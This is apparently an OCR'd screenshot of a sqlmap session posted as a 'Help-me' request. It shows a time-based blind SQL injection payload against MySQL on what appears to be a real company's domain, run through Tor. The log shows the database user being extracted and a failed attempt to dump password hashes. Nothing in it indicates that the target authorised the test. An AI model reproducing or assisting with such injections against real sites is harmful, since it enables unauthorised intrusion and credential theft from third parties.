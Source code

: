 Help-me-----
============

    Type: AND/OR time-based blind     Title: MySQL time-based blind - Parameter replace (bool*int)     Payload: id=(8507=8507)*SLEEP(25) --- [01:16:18] [WARNING] changes made by tampering scripts are not included in shown payload content(s) [01:16:18] [INFO] testing MySQL [01:16:18] [INFO] confirming MySQL [01:16:18] [INFO] the back-end DBMS is MySQL web server operating system: Windows 2008 R2 or 7 web application technology: ASP.NET, Microsoft IIS 7.5 back-end DBMS: MySQL >= 5.0.0 [01:16:18] [INFO] fetching current user [01:16:18] [INFO] retrieving the length of query output [01:16:18] [INFO] resumed: 18 [01:16:18] [INFO] resumed: baroody@% current user:    'baroody@%' [01:16:18] [INFO] fetching database users password hashes [01:16:18] [INFO] fetching database users [01:16:18] [INFO] fetching number of database users [01:16:18] [INFO] resumed: 1 [01:16:18] [INFO] retrieving the length of query output [01:16:23] [INFO] retrieved:    [01:16:35] [INFO] retrieved:    [01:16:35] [WARNING] multi-threading is considered unsafe in time-based data retrieval. Going to switch it off automatically [01:16:35] [WARNING] it's highly recommended to avoid usage of switch '--tor' for time-based injections because of its high latency time                                  [01:16:35] [WARNING] time-based comparison requires larger statistical model, please wait....................... [01:17:12] [CRITICAL] there is considerable lagging in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more) [01:17:14] [WARNING] it is very important not to stress the network adapter during usage of time-based payloads to prevent potential errors  [01:17:18] [INFO] retrieved:    [01:17:18] [ERROR] unable to retrieve the database users [01:17:18] [ERROR] unable to retrieve the password hashes for the database users (most probably because the session user has no read privileges over the relevant system database table) [01:17:18] [INFO] fetched data logged to text files under '/home/b0x/.sqlmap/output/baroodygroup.com'  [*] shutting down at 01:17:18
